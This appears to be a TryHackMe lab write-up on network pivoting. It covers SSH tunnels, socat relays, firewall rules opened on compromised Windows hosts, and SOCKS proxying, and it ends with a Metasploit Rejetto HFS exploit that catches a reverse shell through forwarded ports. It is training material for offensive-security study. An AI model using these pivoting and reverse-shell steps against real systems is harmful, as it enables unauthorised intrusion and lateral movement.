 # Port forwarding

## SSH tunnelling

SSH, as it already has built-in functionality to do port forwarding through a feature called SSH Tunneling. While 
SSH used to be a protocol associated with Linux systems, Windows now ships with the OpenSSH client by default, so 
you can expect to find it in many systems nowadays, independent of their operating system.

On Windows machines, most likely no SSH server will be available:

| ![Basic SSH tunnel](../../_static/images/tunnel.png) |
|:--:|
| Start a tunnel from the compromised machine, acting as an `ssh` client, to the attack machine, <br>which will act as an `ssh` server. |

Making a connection back to our attacker's machine, we will want to create a user in it without access to any 
console for tunnelling and set a password to use for creating the tunnels.

```text
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

The SSH tunnel can be used to do either local or remote port forwarding.

### SSH remote port forwarding

Remote port forwarding is useful, for example, when having gained control over the 
2.2.2.2 Windows host (it does not need to be administrator access) and would like to use it as a pivot to access a 
port on a server to which we can not directly connect.

| ![Remote port forwarding](../../_static/images/tunnel2.png) |
|:--:|
| Take a reachable port from the SSH client (the compromised machine) and project it into a <br>remote ssh server (the attacker's machine). |

To forward port 3389 on the server back to our attacker's machine, on the compromised Windows host:

    C:\> ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N

This establishes an SSH session from 2.2.2.2 (Compromised host) to 1.1.1.1 (Attacker machine) using the `tunneluser` user.

Because the tunneluser is not allowed to run a shell on the attacker machine, we need to run the `ssh` command with 
the `-N` switch to prevent the client from requesting one, or the connection will exit immediately. The `-R` switch is 
used to request a remote port forward, and the syntax requires us first to indicate the port we will be opening at 
the `ssh` server (`3389`), followed by a colon and then the IP and port of the socket we will be forwarding 
(`3.3.3.3:3389`). Port numbers do not **need** to match.

When up and running, we can go to the attacker's machine and RDP into the forwarded port to reach the server:

    xfreerdp /v:127.0.0.1 /u:<username> /p:<password>

### SSH local port forwarding

Local port forwarding allows for "pulling" a port from an ssh server into the ssh client. Any host on the network 
that can not connect directly to the attacker machine but can connect to the compromised host will now be able to 
reach the services offered on the attack machine through the pivot host.

| ![local port forwarding](../../_static/images/tunnel3.png) |
|:--:|
| Take any service available in our attacker's machine and make it available through a port on the <br>compromised host. |

To forward port `80` from the attack machine and make it available from the compromised host, run:
           
    C:\> ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N

The `-L` option requires indicating which local socket used by the compromised host to receive connections on (`*:80`) 
and the remote socket to connect to from the attack machine perspective (`127.0.0.1:80`).

Opening a new port on the compromised host, add a firewall rule to allow for incoming connections (with `dir=in`). 
This requires administrative privileges:

    netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80

Up and running, any user pointing their browsers to the compromised host at `http://2.2.2.2:80` will see the website 
published by the attack machine.

## Port forwarding with socat

`socat` is not as flexible as `ssh`, and it is more noisy, but if `ssh` is not available on the compromised host, may 
be an option. It must be transferred to the compromised host first.

| ![Socat 3389](../../_static/images/tunnelsocat1.png) |
|:--:|
| Access port `3389` on the server using the compromised host as a pivot, with a similar <br>effect as SSH remote port forwarding. |

To access port `3389` on the server using the compromised host:

    C:\>socat TCP4-LISTEN:3389,fork TCP4:3.3.3.3:3389

The `fork` option forks a new process for each connection received, making multiple connections without closing possible.
Otherwise, it would be closed after the first connection finishes.

And because a port is being opened on the pivot host, create a firewall rule:

    netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389

| ![Socat 80](../../_static/images/tunnelsocat2.png) |
|:--:|
| The compromised host will spawn port `80` and listen for connections to be forwarded to port `80` on <br>the attack machine. |

To expose port `80` from the attack machine, making it reachable by the server:

    C:\>socat TCP4-LISTEN:80,fork TCP4:1.1.1.1:80


## Dynamic port forwarding and SOCKS

When wanting to run scans against many ports of a host, or even many ports across many machines through a pivot host, 
dynamic port forwarding seems a good choice. It allows for pivoting through a host and establishing several 
connections to any IP addresses/ports we want, by using a `SOCKS` proxy.

Establish a reverse dynamic port forwarding ssh tunnel on the compromised host:

    C:\> ssh tunneluser@1.1.1.1 -R 9050 -N

Edit the proxychains configuration on the attack machine:

    sudo nano /etc/proxychains4.conf

Go down to the `[ProxyList]` section and add your proxy connection. The default port is `9050`, but any port will 
work as long as it matches the one we used when establishing the SSH tunnel.

If we now want to execute any command through the proxy, we can use `proxychains`, for example:

    proxychains curl http://pxeboot.za.tryhackme.com

**Note: nmap might not work well with SOCKS in some circumstances**

## Flags

* Connect to THMJMP2 via SSH using the credentials from the first task.
* Connect via RDP to THMIIS using `socat`.
* Exploit vulnerable Rejetto HFS on the Domain Controller.

### RDP to THMIIS

With the credentials from the distributor, ssh into the jumphost:

    ssh username@za.tryhackme.com@thmjmp2@za.tryhackme.com

On the jumphost, run socat:

    C:\tools\socat\>socat TCP4-LISTEN:50000,fork TCP4:THMIIS.za.tryhackme.com:3389

The firewall is disabled.

Set up a listener on port 50000 on the attack machine, and connect to THMIIS via RDP from the attack machine by 
pivoting through the listener at THMJMP2:
    
    xfreerdp /v:THMJMP2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020

Flag is on desktop of t1_thomas.moore.

### Exploit Rejetto HFS on the Domain Controller

Use local port forwarding by adding `-L *:6666:127.0.0.1:6666` and `-L *:7777:127.0.0.1:7777` to the ssh command on 
the jumphost THMJMP2. This will bind both ports on THMJMP2 and tunnel any connection back to the attack machine:

    C:\> ssh tunneluser@<IP attack machine> -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7777:127.0.0.1:7777 -N

Start Metasploit and configure the exploit so that the required ports match the ports forwarded through THMJMP2:

```text
msfconsole
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7777

msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666

msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

Receive a shell back at the attack machine. The flag is on `C:\hfs\flag.txt`.

## Resources

* [0xBEN Notes and Cheatsheets: Port Forwarding](https://notes.benheater.com/books/network-pivoting/chapter/port-forwarding)
* [0xBEN Notes and Cheatsheets: Forward Dynamic SOCKS Proxy](https://notes.benheater.com/books/network-pivoting/page/ssh-port-forwarding#bkmrk-dynamic-port-forward)
* [0xBEN Notes and Cheatsheets: Reverse Dynamic SOCKS Proxy](https://notes.benheater.com/books/network-pivoting/page/ssh-port-forwarding#bkmrk-ssh-reverse-dynamic-)
